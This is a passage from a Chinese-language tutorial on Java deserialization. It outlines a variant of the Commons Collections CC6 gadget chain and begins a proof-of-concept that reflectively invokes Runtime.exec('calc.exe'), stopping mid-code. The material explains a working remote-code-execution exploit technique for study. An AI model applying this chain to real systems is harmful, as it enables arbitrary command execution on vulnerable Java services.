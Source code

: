     ![image-20240927101219817](Serialization-Java/image-20240927101219817.png) 

4. 初步的 gadget 如下：

    ```java
    /*
    	HashSet.readObject()
    	    HashMap.put()
    	        HashMap.putVal()
    	            HashMap.hash()
    	                (HashMap 的键)TiedMapEntry.hashCode()
    	                ......
    */
    ```

    可以看出，和上一个 CC6 链相比，仅仅只是更改了 kick-off，但是都用到了 `HashMap`。

### 6.4 链变体 - POC 构造

1. 上述还遗留一个问题，那就是如何给该成员 `map` 赋值，最容易想到的当然是通过反射：
    ```java
    // CC 4.0
    @Test
        public void testCC6_2() throws NoSuchFieldException, IllegalAccessException {
            // 1. 构造链 sink
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer<>(Runtime.class),
                    new InvokerTransformer<>("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer<>("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                    new InvokerTransformer<>("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
            };
            ChainedTransformer transformedChain = new ChainedTransformer(transformers);
    